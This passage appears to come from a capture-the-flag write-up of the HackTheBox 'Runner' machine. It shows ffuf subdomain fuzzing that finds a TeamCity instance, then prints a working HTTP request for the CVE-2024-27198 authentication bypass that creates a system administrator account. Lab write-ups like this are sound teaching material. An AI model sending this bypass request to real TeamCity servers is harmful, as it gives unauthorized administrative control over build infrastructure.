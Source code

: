 I looked around a bit more at this endpoint before moving on, seems there aren't any other files or directories I can find immediately. 

## Port 80

{% include img_link src="/img/runner/runner_front_page" alt="front_page" ext="png" trunc=600 %}

In my case next I used a large scanning list to check for subdomains, though in retrospect the webpage can be used to look for a certain technology or keyword that indicated the subdomain.

```bash
ffuf -w /opt/wordlists/seclists/Discovery/DNS/namelist.txt -u http://runner.htb -H "Host: FUZZ.runner.htb" -mc 200,401

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://runner.htb
 :: Wordlist         : FUZZ: /opt/wordlists/seclists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.runner.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,401
________________________________________________

teamcity                [Status: 401, Size: 66, Words: 8, Lines: 2, Duration: 835ms]
:: Progress: [151265/151265] :: Job [1/1] :: 531 req/sec :: Duration: [0:05:24] :: Errors: 0 ::
```

![Teamcity Login]({{ page.img }}_teamcity_login.png)

Digging for specific version exploits it's easy to find a few 2024 CVEs for teamcity. CVE-2024-27198 is an auth bypass that can lead to RCE given the restapi debug is set to true. I shelled out the important parts so I could spam some burp requests and make an admin account. [https://github.com/yoryio/CVE-2024-27198/blob/main/CVE-2024-27198.py](https://github.com/yoryio/CVE-2024-27198/blob/main/CVE-2024-27198.py) is the script I ripped the request from.

```json
POST /raccoon?jsp=/app/rest/users;.jsp

Content-Type: application/json

{"username":"raccoon","password":"raccoon","email":"raccoon@raccoon.xyz","roles":{"role": [{"roleId:":"SYSTEM_ADMIN","scope":"g"}]}}
```
